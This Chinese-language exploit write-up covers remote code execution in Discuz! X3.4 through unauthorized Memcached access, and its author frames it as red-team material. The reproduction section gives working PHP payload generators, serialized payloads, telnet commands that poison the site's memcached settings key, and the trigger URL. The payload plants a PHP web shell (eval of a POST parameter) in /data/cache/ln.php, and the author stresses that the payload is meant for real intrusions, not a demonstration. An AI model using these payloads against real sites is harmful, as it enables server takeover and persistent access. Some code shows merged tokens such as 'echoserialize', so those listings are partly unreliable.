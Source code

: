 ```yaml
---
title: Discuz x3.4 Memcached未授权访问导致的rce
id: zhfly2876
---
```


# Discuz! X3.4 Memcached未授权访问导致的rce

## 一、漏洞简介

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

## 二、漏洞影响

*   <= x3.4

*   windows

*   php>5.3+php-curl<=7.54

*   DZ开放在80端口

## 三、复现过程

### 漏洞分析

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![image](../img/93b92ad9102837854f7b8dc19754955d.png)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

```
forum.php?mod=ajax&inajax=yes&action=getthreadtypes 
```

```
./source/module/forum/forum_ajax.php 
```

![image](../img/f8347f0dffaed17f8fa3323721fdf9a4.png)

```
./template/default/common/footer_ajax.htm 
```

![image](../img/614d883357deb3d777a17a94464bc298.png)

```
./source/function/function_core.php 
```

![image](../img/7e71a7c632c637cb70cd2cc0cc958783.png)

```
./source/function/function_core.php 
```

![image](../img/6900fc91f23ae32c89dbef83d18c59be.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

```
<?php
$payload['output']['preg']['search']['plugins']= "/.*/e";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload); 
```

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}} 
```

然后telnet链接memcached

```
telnet 1.1.1.1 11211 
```

```
set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。 
```

![image](../img/a4a760e2c882a43659be202157beffd4.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成**/data/cache/ln.php**

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

```
<?php
$payload['output']['preg']['search']['plugins']= "/.*/";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload); 
```

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}} 
```

![image](../img/31b373440e8bb3fee492e7c4b23795d9.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![image](../img/8cf81cc83acf647087fd785195733d33.png)

最后一定要恢复缓存

Delete Vtfbsm_setting

成功写入文件

![image](../img/1c72c2b5ba7c67ce3e7ec7da3f1165a3.png)

## 参考链接

> https://xz.aliyun.com/t/2018